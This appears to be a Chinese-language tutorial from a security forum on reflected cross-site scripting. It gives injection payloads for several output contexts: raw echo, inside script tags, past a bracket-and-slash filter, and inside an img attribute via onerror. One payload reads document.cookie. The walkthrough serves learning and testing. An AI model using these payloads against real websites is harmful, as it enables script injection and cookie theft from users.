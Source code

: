 前言
==

沉下心去努力，总有意外的收获。

XSS
===

反射型XSS
------

没有任何过滤直接回显。  
`?xss=<s cript>a lert(1)</s cript>`

输出在s cript中
-----------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-201d79c8c61b903d6f8356d0a786fbe783ecfeda.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-201d79c8c61b903d6f8356d0a786fbe783ecfeda.png)  
这种直接输出在s cript标签中可以说是任意js执行了。  
输出在`a lert()`中，传入括号进行闭合再进行注释即可。  
`?xss=123');a lert('xss')//`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-feb3e0cc1f3347d51345fc2a3b0c1b505b9ae184.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-feb3e0cc1f3347d51345fc2a3b0c1b505b9ae184.png)

输出在s cript中\_2
--------------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-31e259847233d4985cac5f9273a48e99ae130b05.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-31e259847233d4985cac5f9273a48e99ae130b05.png)  
过滤了尖括号和斜杠，不能用注释，可以用闭合，而且本身就输出在s cript标签中，限制不大。  
`?xss=');a lert(document.cookie);console.log('`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e14337ac754c3d031fc54d690e292ba6a24d842.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e14337ac754c3d031fc54d690e292ba6a24d842.png)

输出在html属性中
----------

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9354449dfd5f7def37ff5707d2dc6ca4b4acd5c6.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-9354449dfd5f7def37ff5707d2dc6ca4b4acd5c6.png)  
输出在img标签的src属性中，那么可以用o nerror事件触发，也可以利用闭合构造一对s cript标签。  
`?xss=xss" o nerror="a lert('1');`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b4aa72dbfb480d9b45eac1273754500bb2c4dd7.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-2b4aa72dbfb480d9b45eac1273754500bb2c4dd7.png)  
`?xss=xss"><s cript>a lert('xss');</s cript>`  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26b146bb3bc7bc00277d49764dd123d4181714b2.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-26b146bb3bc7bc00277d49764dd123d4181714b2.png)  
条件还是比较宽松，自由发挥。

